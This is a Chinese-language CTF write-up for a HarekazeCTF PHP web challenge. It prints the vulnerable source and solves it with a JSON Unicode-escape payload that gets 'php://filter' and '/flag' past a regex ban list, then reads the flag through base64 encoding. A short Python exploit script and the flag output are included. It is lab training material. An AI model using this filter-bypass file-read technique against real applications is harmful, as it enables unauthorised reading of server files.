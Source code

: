 这队名...船员跑来CTF暴打萌新了QwQ

![](<./img/Pasted image 20230118105015.png>)

强迫症当场去世.jpg

![](<./img/Pasted image 20230118105045.png>)

---

```
/#pages/about.html
```

![](<./img/Pasted image 20230118105213.png>)

```
/#pages/lorem.html
```

![](<./img/Pasted image 20230118105340.png>)

```
/query.php?source
```

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

通过`php://input`读取`POST`的`JSON`字符串，取`page`属性传给`file_get_contents`，再编码成`JSON`返回

通过`php://filter`进行`base64`编码绕过对`HarekazeCTF`格式的过滤，但这样会被`is_valid`过滤

不过既然`JSON`的字符串值套在双引号里面，大抵是能转义的罢👀

```json
{
    "page": "\u0070\u0068\u0070://filter/read=convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"
}
```

```python
import requests
url = 'http://xxx.node4.buuoj.cn:81/query.php'
data = b'{"page": "\u0070\u0068\u0070://filter/read=convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}'
print(requests.post(url, data=data).content)
```

```json
{
    "content":"ZmxhZ3swNDJlYTk0My0yMmZkLTQ3NzEtODJmOS0xOGQwYzA1OGMxNDh9Cg=="
}
```

![](<./img/Pasted image 20230118113034.png>)

#Web #PHP #json #encoding #伪协议 
